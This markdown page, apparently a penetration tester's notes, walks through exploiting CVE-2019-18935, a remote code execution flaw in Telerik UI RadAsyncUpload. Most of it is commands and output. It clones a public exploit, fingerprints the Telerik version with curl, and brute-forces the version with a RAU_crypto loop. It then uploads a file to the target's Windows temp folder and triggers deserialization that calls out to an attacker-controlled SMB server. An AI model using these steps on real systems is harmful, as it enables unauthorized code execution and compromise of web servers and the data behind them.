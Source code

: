 ```yaml
---
title : "CVE-2019-18935"
# pre : ' '
description : "Telerik UI ASP.NET AJAX RadAsyncUpload Deserialization - Remote Code Execution."
date : 2021-01-18T13:14:31+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2019-18935 - Telerik UI ASP.NET AJAX RadAsyncUpload Deserialization - Remote Code Execution

{{%resources fa_icon_class="far fa-file-pdf" pattern=".*(pdf)"/%}}

## Installation

```plain
git clone https://github.com/noperator/CVE-2019-18935.git
```

### Confirm that the file upload handler is registered

```plain
curl -sk <HOST>/Telerik.Web.UI.WebResource.axd?type=rau
{ "message" : "RadAsyncUpload handler is registered succesfully, however, it may not be accessed directly." }
```

### Check version of the software installed

### Without authentication

If the application using RadAsyncUpload does not require authentication, then you can usually find the UI version buried somewhere in the HTML source of the application's home page. The location of the version string isn't consistent, though, so the best method of locating it is to use Burp to search for the regular expression ```20[0-9]{2}(\.[0-9]*)+``` (and make sure you check the "Regex" box). You can also accomplish this with cURL:

```plain
curl -skL <host> | /usr/bin/grep -oE '20[0-9]{2}(\.[0-9]*)+'
```

If that doesn't work, you can alternatively search for the string ```<script src="/WebResource``` to identify any JavaScript files that are included in the site's home page. Choose one of the static resources there and examine its ```Last-Modified``` date in the HTTP response header; that date should roughly match the release date of the software. For example, a JavaScript resource bundled with UI for ASP.NET AJAX Q1 2013 (v2013.1.220, released on February 20, 2013) will read ```Last-Modified: Wed, 20 Feb 2013 00:00:00 GMT``` in the HTTP response header for that file.

### With authentication

If the application does require authentication, then you may be able to determine the software version via brute force. Since uploading a file with RadAsyncUpload requires providing the correct version of Telerik UI, you can use Paul Taylor's [RAU_crypto](https://github.com/bao7uo/RAU_crypto) exploit to submit file upload requests with known-vulnerable versions until you find one that works:

```plain
echo 'test' > testfile.txt
for VERSION in 2007.1423 2007.1521 2007.1626 2007.2918 2007.21010 2007.21107 2007.31218 2007.31314 2007.31425 2008.1415 2008.1515 2008.1619 2008.2723 2008.2826 2008.21001 2008.31105 2008.31125 2008.31314 2009.1311 2009.1402 2009.1527 2009.2701 2009.2826 2009.31103 2009.31208 2009.31314 2010.1309 2010.1415 2010.1519 2010.2713 2010.2826 2010.2929 2010.31109 2010.31215 2010.31317 2011.1315 2011.1413 2011.1519 2011.2712 2011.2915 2011.31115 2011.3.1305 2012.1.215 2012.1.411 2012.2.607 2012.2.724 2012.2.912 2012.3.1016 2012.3.1205 2012.3.1308 2013.1.220 2013.1.403 2013.1.417 2013.2.611 2013.2.717 2013.3.1015 2013.3.1114 2013.3.1324 2014.1.225 2014.1.403 2014.2.618 2014.2.724 2014.3.1024 2015.1.204 2015.1.225 2015.2.604 2015.2.623 2015.2.729 2015.2.826 2015.3.930 2015.3.1111 2016.1.113 2016.1.225 2016.2.504 2016.2.607 2016.3.914 2016.3.1018 2016.3.1027 2017.1.118 2017.1.228 2017.2.503 2017.2.621 2017.2.711 2017.3.913; do
    echo -n "$VERSION: "
    python3 RAU_crypto.py -P 'C:\Windows\Temp' "$VERSION" testfile.txt <HOST>/Telerik.Web.UI.WebResource.axd?type=rau 2>/dev/null | grep fileInfo || echo
done
```

When the file upload succeeds, you'll see a JSON response containing some encrypted data about the uploaded file:

```plain
{"fileInfo":{"FileName":"<NAME>","ContentType":"text/html","ContentLength":<LENGTH>,"DateJson":"<DATE>","Index":0}, "metaData":"VGhpcyBpc24ndCByZWFsIGRhdGEsIGJ1dCB0aGUgQmFzZTY0LWVuY29kZWQgZGF0YSBsb29rcyBqdXN0IGxpa2UgdGhpcy4=" }
```

## Examples

### Check version

```plain
$ curl -skL https://example.com/ | /usr/bin/grep -oE '20[0-9]{2}(\.[0-9]*)+'              
2015.2.623.40
2015.2.623.40
2015.2.623.40
2015.2.623.40
```

### Upload test file

```plain
$ python3 CVE-2019-18935.py -p test.txt -t -f 'C:\Windows\Temp' -u https://www.example.com/Telerik.Web.UI.WebResource.axd\?type\=rau -v 2015.2.623
[*] Local payload name:  test.txt
[*] Destination folder:  C:\Windows\Temp
[*] Remote payload name: 1610022896.082644.txt

{'fileInfo': {'ContentLength': 5,
              'ContentType': 'application/octet-stream',
              'DateJson': '1970-01-01T00:00:00.000Z',
              'FileName': '1610022896.082644.txt',
              'Index': 0},
 'metaData': {'AsyncUploadTypeName': 'Telerik.Web.UI.UploadedFileInfo, '
                                     'Telerik.Web.UI, Version=2015.2.623.40, '
                                     'Culture=neutral, '
                                     'PublicKeyToken=121fae78165ba3d4',
              'TempFileName': '1610022896.082644.txt.tmp'}}

[*] Heads up! Payload was renamed on target from "1610022896.082644.txt" to "1610022896.082644.txt.tmp". Will adjust automatically while deserializing; otherwise, if deserializing manually with the "-d" option, use the "-r" option to specify the accurate, renamed payload on target.
```

### Triggering SMB-outbound

```plain
python3 CVE-2019-18935.py -u https://<host>/Telerik.Web.UI.WebResource.axd\?type\=rau -v 2015.2.623 -s <ip-of-smb-server> -d
```

## URL List

- [Labs.bischopfox.com - RCE explanation](https://labs.bishopfox.com/tech-blog/cve-2019-18935-remote-code-execution-in-telerik-ui)
- [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-18935)
- [Tenable.com](https://www.tenable.com/cve/CVE-2019-18935)
